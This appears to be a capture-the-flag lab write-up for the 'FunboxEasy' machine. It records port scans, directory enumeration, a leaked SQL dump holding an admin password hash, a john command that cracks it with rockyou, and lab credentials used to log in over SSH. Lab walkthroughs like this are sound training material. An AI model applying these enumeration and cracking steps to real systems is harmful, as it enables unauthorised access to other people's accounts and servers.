 # FunboxEasy

***

IP=192.168.201.111

## NMAP

| PORT      | STATE | SERVICE |
| --------- | ----- | ------- |
| 22/tcp    | open  | ssh     |
| 80/tcp    | open  | http    |
| 33060/tcp | open  | mysqlx  |

```perl
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 b2d8516ec584051908ebc8582713132f (RSA)
|   256 b0de9703a72ff4e2ab4a9cd9439b8a48 (ECDSA)
|_  256 9d0f9a26384f0180a7a6809dd1d4cfec (ED25519)
80/tcp    open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_gym
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.41 (Ubuntu)
33060/tcp open  mysqlx?
| fingerprint-strings: 
|   DNSStatusRequestTCP, LDAPSearchReq, NotesRPC, SSLSessionReq, TLSSessionReq, X11Probe, afp: 
|     Invalid message
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## 80 - Http

http-robots.txt: 1 disallowed entry |\_gym

```perl
/index.php            (Status: 200) [Size: 3468]
/index.html           (Status: 200) [Size: 10918]
/profile.php          (Status: 302) [Size: 7247] [--> http://192.168.201.111/index.php]
/header.php           (Status: 200) [Size: 1666]                                       
/store/               (Status: 200) [Size: 3998]                                       
/admin/               (Status: 200) [Size: 3263]                                       
/registration.php     (Status: 200) [Size: 9409]                                       
/logout.php           (Status: 200) [Size: 75]                                         
/robots.txt           (Status: 200) [Size: 14]                                         
/dashboard.php        (Status: 302) [Size: 10272] [--> http://192.168.201.111/index.php]
/secret/              (Status: 200) [Size: 108]                                         
/leftbar.php          (Status: 200) [Size: 1837]                                        
/forgot-password.php  (Status: 200) [Size: 2763]
```

### Fuzzing

/store --> /database --> www\_project.sql

```mysql
INSERT INTO `admin` (`name`, `pass`) VALUES
('admin', 'd033e22ae348aeb5660fc2140aec35850c4da997');
```

```bash
echo 'd033e22ae348aeb5660fc2140aec35850c4da997' > hash.txt
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

admin:admin

/store/admin.php



<figure><img src="../.gitbook/assets/Pasted image 20231024215530.png" alt=""><figcaption></figcaption></figure>

## PrivEsc

ssh: yxcvbnmYYY gym/admin: asdfghjklXXX /store: admin@admin.com admin

```bash
ssh tony@$IP
yxcvbnmYYY
```
